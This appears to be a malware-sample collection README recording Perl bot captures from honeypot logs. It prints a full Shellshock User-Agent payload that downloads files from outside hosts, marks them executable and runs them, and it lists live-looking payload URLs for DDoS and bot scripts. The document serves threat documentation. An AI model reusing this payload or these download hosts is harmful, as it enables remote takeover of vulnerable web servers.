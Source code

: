 #Collection Perl Bot 

## Captured First
### Contents of ``perlbot.tar.gz``
	ffak.txt, ffak.txt, ffperl_1.txt, ffperl.jpg, ffst.txt

### Log of Exploit
	---BEGIN---
		Fri Mar 10 2017 07:58:21 GMT+0000 (UTC)
		New Connection 212.179.90.226 -> 138.68.229.32
		User Agent: () { :;}; /bin/bash -c "cd /tmp; wget -O /tmp/p http://loss.at.ua/ffperl.txt; wget -O /tmp/ffak http://loss.at.ua/ffak.txt; wget -O /tmp/ffst http://loss.at.ua/ffst.txt; chmod +x p ffak ffst; ./ffak; ./ffst; cd /tmp; wget -O /tmp/ffperl.jpg http://loss.at.ua/ffperl.jpg; curl -O /tmp/ffperl.jpg http://loss.at.ua/ffperl.jpg; fetch http://loss.at.ua/ffperl.jpg; tar xvf /tmp/ffperl.jpg; rm -rf /tmp/ffperl.jpg; cd /tmp/.usage; chmod +x *; ./ak; ./st; perl p.txt"
		Requested Resource: /
		Request Method: GET
		Accept: undefined
		Content Type: undefined
		Content Length: undefined


## Captured second
ddos.txt, pbotz.txt
### FROM LOG ENTRY:
``awstats032017.webmail.lynxitalia.it.txt.ORIGINAL``
3952    /[Scripthttp://hhispano.com.ar//gohack/ddos.txt 1 -
3945    /awstats/[Scripthttp://hhispano.com.ar//gohack/pbotz.txt

## URL
(ddos.txt)[http://hhispano.com.ar//gohack/ddos.txt]

## HEADERS
###REQUEST HEADERS:
	Host: hhispano.com.ar
	User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Connection: keep-alive


###RESPONSE HEADERS:
	Accept-Ranges: bytes
	Content-Length: 66695
	Content-Type: text/plain
	Date: Tue, 11 Apr 2017 15:12:14 GMT
	Etag: "10487-54b02f335cd74"
	Last-Modified: Sat, 18 Mar 2017 15:28:45 GMT
	Server: Apache

## URL
(pbotz.txt)[http://hhispano.com.ar//gohack/pbotz.txt]
## HEADERS
###REQUEST HEADERS:
	Host: hhispano.com.ar
	User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Connection: keep-alive
	If-Modified-Since: Tue, 21 Mar 2017 14:00:13 GMT
	If-None-Match: "5611-54b3e10178478"
	Cache-Control: max-age=0

###RESPONSE HEADERS:
	Connection: Keep-Alive
	Date: Tue, 11 Apr 2017 15:29:54 GMT
	Etag: "5611-54b3e10178478"
	Keep-Alive: timeout=5, max=100
	Server: Apache

## Captured third
(rion.tgz)[https://transfer.sh/MBq1n/rion.tgz]
### Background
From Tim's honeypot, attacking port 80 with a shellshock variation
### URL
